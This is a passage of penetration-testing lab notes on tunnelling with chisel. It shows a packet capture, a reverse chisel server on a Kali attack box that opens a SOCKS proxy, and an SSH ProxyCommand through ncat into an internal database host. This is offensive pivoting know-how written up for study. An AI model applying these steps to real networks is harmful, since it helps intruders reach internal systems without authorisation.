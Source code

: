 ```bash
        0x0050:  382e 3131 382e 343a 3830 3830 0d0a 5573  8.118.4:8080..Us
        0x0060:  6572 2d41 6765 6e74 3a20 476f 2d68 7474  er-Agent:.Go-htt
        0x0070:  702d 636c 6965 6e74 2f31 2e31 0d0a 436f  p-client/1.1..Co
        0x0080:  6e6e 6563 7469 6f6e 3a20 5570 6772 6164  nnection:.Upgrad
        0x0090:  650d 0a53 6563 2d57 6562 536f 636b 6574  e..Sec-WebSocket
        0x00a0:  2d4b 6579 3a20 4c38 4643 744c 334d 5731  -Key:.L8FCtL3MW1
        0x00b0:  3867 4864 2f63 6352 574f 5051 3d3d 0d0a  8gHd/ccRWOPQ==..
        0x00c0:  5365 632d 5765 6253 6f63 6b65 742d 5072  Sec-WebSocket-Pr
        0x00d0:  6f74 6f63 6f6c 3a20 6368 6973 656c 2d76  otocol:.chisel-v
        0x00e0:  330d 0a53 6563 2d57 6562 536f 636b 6574  3..Sec-WebSocket
        0x00f0:  2d56 6572 7369 6f6e 3a20 3133 0d0a 5570  -Version:.13..Up
        0x0100:  6772 6164 653a 2077 6562 736f 636b 6574  grade:.websocket
        0x0110:  0d0a 0d0a                                ....
18:13:53.687745 IP (tos 0x0, ttl 64, id 60604, offset 0, flags [DF], proto TCP (6), length 52)
    192.168.118.4.8080 > 192.168.50.63.41424: Flags [.], cksum 0x46ca (correct), seq 1, ack 225, win 508, options [nop,nop,TS ...
...
```
Additionally, we should see an inbound connection on our *chisel server*:
```bash
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
2023/10/03 18:13:54 server: session#2: Client version (1.8.1) differs from server version (1.8.1-0kali2)
2023/10/03 18:13:54 server: session#2: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
**LASTLY** lets check for the reverse SOCKS proxy which should be listening on port `1080` of our Kali machine:
```bash
kali@kali:~$ ss -ntplu
Netid     State      Recv-Q     Send-Q           Local Address:Port            Peer Address:Port     Process
udp       UNCONN     0          0                      0.0.0.0:34877                0.0.0.0:*
tcp       LISTEN     0          4096                 127.0.0.1:1080                 0.0.0.0:*         users:(("chisel",pid=501221,fd=8))
tcp       LISTEN     0          4096                         *:8080                       *:*         users:(("chisel",pid=501221,fd=6))
tcp       LISTEN     0          511                          *:80                         *:*
```
YAY, thank *f_ck*.
## Using the Tunnel
We're going to use [SSH](../../networking/protocols/SSH.md)'s *[_ProxyCommand_](https://man.openbsd.org/ssh_config#ProxyCommand)* (instead of proxychains like we did in the [dynamic port forward](../port-redirection-SSH-tunneling/SSH-tunneling/dynamic-port-forwarding.md) scenario). `ProxyCommand` accepts a shell command which it uses to open *a proxy-enabled channel*. The `ProxyCommand` docs suggest using [netcat](../../cybersecurity/TTPs/exploitation/tools/netcat.md)'s `-X` flag, but the version of netcat which ships with Kali *doesn't support proxying*. We can use [nmap](../../CLI-tools/linux/remote/nmap.md)'s [_Ncat_](https://nmap.org/ncat/) tool instead. Ncat can be installed using `sudo apt install ncat`. 
### Ncat
Once Ncat is installed we can use it along with `ProxyCommand` to *SSH to `PGDATABASE01`*:
```bash
kali@kali:~$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
The authenticity of host '10.4.50.215 (<no hostip for proxy command>)' can't be established.
ED25519 key fingerprint is SHA256:IGz427yqW3ALf9CKYWNmVctA/Z/emwMWWRG5qQP8JvQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.4.50.215' (ED25519) to the list of known hosts.
database_admin@10.4.50.215's password:
Welcome to Ubuntu 22.04 LTS (GNU/Linux 5.15.0-41-generic x86_64)
```